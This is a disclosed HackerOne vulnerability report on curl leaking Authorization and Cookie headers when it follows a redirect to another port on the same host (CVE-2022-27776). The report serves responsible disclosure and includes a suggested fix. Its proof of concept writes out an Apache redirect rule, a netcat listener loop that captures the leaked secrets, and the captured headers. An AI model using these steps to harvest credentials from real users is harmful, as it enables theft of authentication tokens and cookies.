 # CVE-2022-27776: Auth/cookie leak on redirect 

## Report Details
- **Report ID**: 1547048
- **URL**: https://hackerone.com/reports/1547048
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-04-21T15:20:43.992Z
- **Disclosed**: 2022-04-27T09:58:45.149Z

## Reporter
- **Username**: nyymi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
Curl can be coaxed to leak Authorisation / Cookie headers by redirecting request to http:// URL on the same host. Successful exploitation requires that the attacker can either Man-in-the-Middle the connection or can access the traffic at the recipient side (for example by redirecting to a non-privileged port such as 9999 on the same host).

## Steps To Reproduce:

1. Configure for example Apache2 to perform redirect with mod_rewrite:
   ```
   RewriteCond %{HTTP_USER_AGENT} "^curl/"
   RewriteRule ^/redirectpoc http://hostname.tld:9999 [R=301,L]
    ```
  ... the attacker could also use `.htpasswd` file to do so.
  2. Set up netcat to listen for the incoming secrets:
    `while true; do echo -ne 'HTTP/1.1 404 nope\r\nContent-Length: 0\r\n\r\n' | nc -v -l -p 9999; done`
  3. `curl-L -H "Authorization: secrettoken" -H "Cookie: secretcookie" https://hostname.tld/redirectpoc`
 
The redirect will be followed, and the confidential headers sent over insecure HTTP to the specified port:
```
GET / HTTP/1.1
Host: hostname.tld:9999
User-Agent: curl/7.83.0-DEV
Accept: */*
Authorization: secrettoken
Cookie: secretcookie
```

The attack could also use HTTPS and a valid certificate, In this case the leaked headers are of course only be visible to the listening http server.

This vulnerability is quite similar to CVE-2022-27774 and the fix is similar too: If the protocol or port number differs from the original request strip the Authorization and Cookie headers.

This bug appears to be here: https://github.com/curl/curl/blob/master/lib/http.c#L1904

## Impact

Leak of Authorisation and/or Cookie headers.

## Attachments
No attachments
